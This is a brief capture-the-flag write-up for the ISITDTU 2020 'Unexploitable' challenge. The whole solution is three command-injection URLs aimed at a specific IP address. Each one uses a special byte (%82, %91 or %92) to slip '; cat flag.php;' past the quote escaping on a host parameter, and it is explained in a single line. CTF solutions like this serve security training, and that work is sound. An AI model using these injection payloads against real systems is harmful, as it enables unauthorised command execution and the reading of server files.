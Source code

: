 # Solution for Unexploitable (ISITDTU 2020)

![image](./chall.png)

Just use special character to escapse quote
---

Break Permitted Here
http://13.68.153.110/unexploitable/?host=8.8.8.8%82;%20cat%20flag.php;%20%82
---

Private Use One
http://13.68.153.110/unexploitable/?host=8.8.8.8%91;%20cat%20flag.php;%20%91
---

Private Use Two
http://13.68.153.110/unexploitable/?host=8.8.8.8%92;%20cat%20flag.php;%20%92
---



![image](./show.png)